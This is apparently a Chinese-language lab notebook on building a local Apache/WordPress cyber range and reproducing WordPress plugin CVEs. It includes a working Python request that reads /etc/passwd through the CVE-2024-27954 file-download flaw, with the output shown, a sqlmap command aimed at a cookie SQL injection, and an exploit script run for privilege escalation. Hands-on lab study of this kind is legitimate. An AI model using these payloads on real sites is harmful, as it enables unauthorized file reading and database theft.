# 网络靶场攻防小实验

## 靶场搭建

搭建过程基于Ubuntu20.04，Apache的Web服务器，mysql数据库

详细的搭建可以参考该帖子……[ubuntu 22.04部署Apache服务器](https://www.netiii.com/4102/)

具体过程还是比较艰辛的，因为之前对Apache的部署没有太多了解，不同的服务架设在一台服务器之上需要暴露给外部访问方式，具体可以参考……[Apache2 在Ubuntu环境下部署多个站点（单ip配置多域名）_ubuntu apache2配置多个域名-CSDN博客](https://blog.csdn.net/Davie_Liu/article/details/117331356)。主要值得学习的是两种方式，一种是暴露不同的端口出去，另外一种是基于主机名（使用不同的域名去区分网站）

这里采取的是用不同的端口号来做区分（相对简单一点……）

把Apache部署好之后需要编写具体网页的配置文件，示例如下（重点部分是`虚拟主机`,`DocumentRoot`以及`ServerName`几个点）

相关的网页文件放在`/var/www`中，配置文件放在`/etc/apache2/sites-available`中（从网上下好相关的网页之后就需要在`sites-available`中为其写`*.conf`文件。

```markdown
<VirtualHost *:8081>
    DocumentRoot /var/www/html/wordpress
    ServerName wordpress.example.com

    <Directory /var/www/wordpress>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/wordpress_error.log
    CustomLog ${APACHE_LOG_DIR}/wordpress_access.log combined
</VirtualHost>
```

配置文件写好之后注意Apache服务器监听的端口，要在`/etc/apache2/ports.conf`配置文件中做修改，只有下面listen标记的端口才可以被监听到，想用不同的端口区分网页的话就得多开几个端口。



其实也就是简单搭建好了……达到一个能用的水平……

```
sudo systemctl start apache2 #启动阿帕奇服务
sudo systemctl status apache2 #检查状态
```

### docker镜像问题

docker拉镜像拉不到的话解决方案如下：[如何完美解决 “error pulling image configuration: download failed after attempts=6: dial tcp 59.188.250.54-CSDN博客](https://blog.csdn.net/qq_44866828/article/details/139745845)

使用`Snap`一键安装的docker好像就是会出现`Unit docker.service not found.`的报错，应该是管理方式不一样，如果用的指令是`sudo snap services docker`就可以看到其实还是安装了的。

……尝试了一段时间之后，docker还是拉取不了镜像下来，遂放弃使用docker……


## WordPress

### CVE-2024-25600

首先需要搭建好`wordpress`，https://cn.wordpress.org/download/（从此处下载得到，并写好配置文件）

搭建好之后个性化注册一下（大概如下）



然后安装具有漏洞的插件……（可以到这个位置去找[插件](https://github.com/Shelter1234/VulneraLab/tree/main/WordPress/Bricks/CVE-2024-25600)）

……插件装不上 寄了 会出现个莫名其妙的问题（其他插件就没有）


哦之前以为Bricks Builder是一个插件……结果发现是一个主题（对Bricks Builder不熟导致的）




### CVE-2024-27954

该漏洞是WordPress中的`Automatic`插件小于`3.92.1`版本易受未经验证的任意文件下载和SSRF的攻击。位于downloader.php文件中，可能允许攻击者从网站访问任何文件。敏感数据，包括登录凭据和备份文件。

先把目标插件安装上去



插件安装上去之后找到出问题的代码`\wp-automatic\downloader.php`文件

```

```

编写一个python脚本向WordPress发送Payload

```python
import requests
# 这里注意一下，我搭环境的端口为8081，如果不是的话需要删去
url = "http://127.0.0.1:8081/?p=3232&wp_automatic=download&link=file:///etc/passwd"
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36",
    "Connection": "close",
    "Accept": "*/*",
    "Accept-Language": "en",
    "Accept-Encoding": "gzip"
}

response = requests.get(url, headers=headers)
print(response.text)
```

可以得到满足条件的回复



```shell
{
  "link": "file:\\\/\\\/etc\\\/passwd",
  "title": null,
  "status": "success",
  "text": [
    "root:x:0:0:root:\\\/root:\\\/bin\\\/bash",
    "daemon:x:1:1:daemon:\\\/usr\\\/sbin\\\/nologin",
    "bin:x:2:2:bin:\\\/bin\\\/nologin",
    "sys:x:3:3:sys:\\\/dev\\\/null",
    "sync:x:4:65534:sync:\\\/bin\\\/sync",
    "games:x:5:60:games:\\\/usr\\\/sbin\\\/nologin",
    ...
    "mysql:x:126:135:MySQL Server,,,:\\\/nonexistent:\\\/bin\\\/false",
    "yzw:x:1001:1001::\\\/home\\\/yzw:\\\/bin\\\/sh"
  ]
}
```

这个输出显示了 `/etc/passwd` 文件的内容，该文件存储了系统中所有用户的账号信息（不包括密码）。每行代表一个用户，包括用户名、用户ID、组ID、用户描述、主目录和默认shell。

`username`: 用户名

`password placeholder`: 在现代系统中通常为`x`，实际密码存储在`/etc/shadow`文件中

`UID`: 用户ID

`GID`: 组ID

`user description`: 用户描述

`home directory`: 用户的主目录

`default shell`: 默认shell（登录时使用）


### CVE-2023-6063

`Fastest Cache`插件中小于等于`1.2.1`的版本具有SQL注入漏洞，该漏洞可导致未经身份验证的攻击者读取站点数据库中的内容。

安装好插件之后需要在这个插件里面启用`缓存系统`功能，否则很有可能复现不了。



具有问题的代码位置在`wpFastestCache.php`中



代码的353行调用了一个`cache()`方法，随后会跳转到1097行的对于的私有方法`cache()`中



if条件判断检查 `$_SERVER` 超全局数组中的 `HTTP_HOST` 键是否存在且不为空（`$_SERVER['HTTP_HOST']` 通常包含当前请求的主机名）。如果条件为真的话包含 `inc` 目录下的 `cache.php` 文件。`include_once` 确保文件只会被包含一次，避免重复包含。

随后调用`createCache()`方法创建缓存。`createCache()`如下，会经过`is_user_admin()`逻辑的验证（问题代码也是在这个`is_user_admin()`中。



这个函数会遍历所有的`cookie`来匹配`wordpress_logged_in`键，然后提取第一个匹配的字段作为`用户名`变量。然后`$wpdb`全局变量在网站的数据库中执行查询操作。

```php
public function is_user_admin() {
    // 声明全局变量 $wpdb，这是 WordPress 用于数据库操作的全局对象
    global $wpdb;

    // 遍历所有的 Cookie，将它们转换为数组进行遍历
    foreach ((array)$_COOKIE as $cookie_key => $cookie_value) {
        // 如果 Cookie 的键名中包含 "wordpress_logged_in"
        if (preg_match("/wordpress_logged_in/i", $cookie_key)) {
            // 使用正则表达式从 Cookie 值中提取用户名部分
            // Cookie 值通常的格式是 "用户名|其他信息"，这里提取 "用户名" 部分
            $username = preg_replace("/^([^\|]+)\|.+/", "$1", $cookie_value);
            // 找到一个匹配的 Cookie 后就可以停止循环
            break;
        }
    }

    // 检查是否成功提取到了用户名，并且用户名不为空
    if (isset($username) && $username) {
        // 构建并执行 SQL 查询，检查该用户名是否为管理员
        // 管理员用户的元数据键 "_user_level" 的值应该为 10
        $res = $wpdb->get_var("SELECT `$wpdb->users`.`ID`, `$wpdb->users`.`user_login`, `$wpdb->usermeta`.`meta_key`, `$wpdb->usermeta`.`meta_value`
                               FROM `$wpdb->users`
                               INNER JOIN `$wpdb->usermeta`
                               ON `$wpdb->users`.`user_login` = \"$username\" AND
                               `$wpdb->usermeta`.`meta_key` LIKE \"%_user_level\" AND
                               `$wpdb->usermeta`.`meta_value` = \"10\" AND
                               `$wpdb->users`.`ID` = `$wpdb->usermeta`.user_id;"
                             );

        // 如果查询结果存在，则返回用户 ID，否则返回 false
        return $res;
    }

    // 如果没有找到用户名或用户名为空，则返回 false
    return false;
}

```

然而这里的sql查询语句直接将 `$username` 插入到 SQL 查询中，而没有对其进行适当的转义和过滤。而我们的用户名`$username`是从`cookie`中得到的，也就是说是来源于用户，用户可以恶意的控制`cookie`使其和sql语句连接起来。

我们使用sqlmap去扫描，以验证这个漏洞确实存在于我们的服务器上。

```shell
$ python sqlmap.py --dbms=mysql -u "http://127.0.0.1/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 --schema
--dbms=mysql 表示目标数据库是mysql
-u 后面跟的是目标url
--cookie 表示使用特定的Cookie进行测试。这里的wordpress_logged_in=*表示提供一个已登录的会话Cookie，以便sqlmap可以以登录用户的身份进行测试。
--level 设置了sqlmap的测试强度级别 级别2比默认级别1进行更多的测试，这意味着它会测试更多类型的参数和载荷。
--schema 这表示sqlmap将在发现SQL注入漏洞后，获取和显示目标数据库的架构信息。
```

这个`cookie`参数每一次登录都是会变化的，需要打开F12开发者面板去找到才可以，复制Name对应列的值



……试了挺多次，sqlmap都没办法扫描出来




### CVE-2023-32243

WordPress中的Essential Addonsfor Elementor插件存在权限提升漏洞，受影响的版本为`5.4.0-5.7.1`


上传插件的时候遇到文件大小限制的问题



解决方式：找到`/etc/php/(版本号)/apache2/php.ipi`文件，修改`upload_max_filesize`和`post_max_size`两个字段，提高上传文件限制大小。

脚本文件`exploit.py`存放在`CVE-2023-32243`中，脚本参考：https://github.com/gbrsh/CVE-2023-32243，并做了一定的修改。

攻击目标是`http://127.0.0.1:8081`(你实际部署服务的位置)

```shell
python3 exploit.py http://127.0.0.1:8081 -u yzw_wordpress -p yzw_wordpress
```

出现错误如下



为了获取更多的调试信息，我们在WordPress中开启错误日志记录（打开调试模式）以选择合适的payload

```php
define('WP_DEBUG', true);
define('WP_DEBUG_LOG', true);
define('WP_DEBUG_DISPLAY', false);
```

打开之后重新运行脚本，观察错误信息

```markdown
[04-Jul-2024 12:38:14 UTC] PHP Fatal error:  Uncaught Error: Class 'Elementor\Plugin' not found in /var/www/html/wordpress/wp-content/plugins/essential-addons-for-elementor-lite/includes/Traits/Login_Registration.php:1363
Stack trace:
#0 /var/www/html/wordpress/wp-content/plugins/essential-addons-for-elementor-lite/includes/Traits/Login_Registration.php(845): Essential_Addons_Elementor\Classes\Bootstrap->lr_get_widget_settings()
#1 /var/www/html/wordpress/wp-content/plugins/essential-addons-for-elementor-lite/includes/Traits/Login_Registration.php(52): Essential_Addons_Elementor\Classes\Bootstrap->reset_password()
#2 /var/www/html/wordpress/wp-includes/class-wp-hook.php(324): Essential_Addons_Elementor\Classes\Bootstrap->login_or_register_user()
#3 /var/www/html/wordpress/wp-includes/class-wp-hook.php(348): WP_Hook->apply_filters()
#4 /var/www/html/wordpress/wp-includes/plugin.php(517): WP_Hook->do_action()
#5 /var/www/html/wordpress/wp-settings.php(695): do_action()
#6 /var/www/html/wordpress/wp-config.php(98): require_once('/var/www/html/w...')
#7 /va in /var/www/html/wordpress/wp-content/plugins/essential-addons-for-elementor-lite/includes/Traits/Login_Registration.php on line 1363
```

这里表明错误发生在 Essential Addons for Elementor 插件的 Login_Registration.php 文件中，具体原因是找不到 `Elementor\Plugin` 类。这表明 Elementor 插件可能没有正确安装或激活。

我们打开wordpress将我们之前的插件激活起来……




## Spider-flow


## 跳板设置

### 遇到的问题

虚拟机改为桥接模式之后断网

确保桥接模式被桥接到了正确的网卡

本人使用的是WIFI 所以看看连接WIFI的网卡





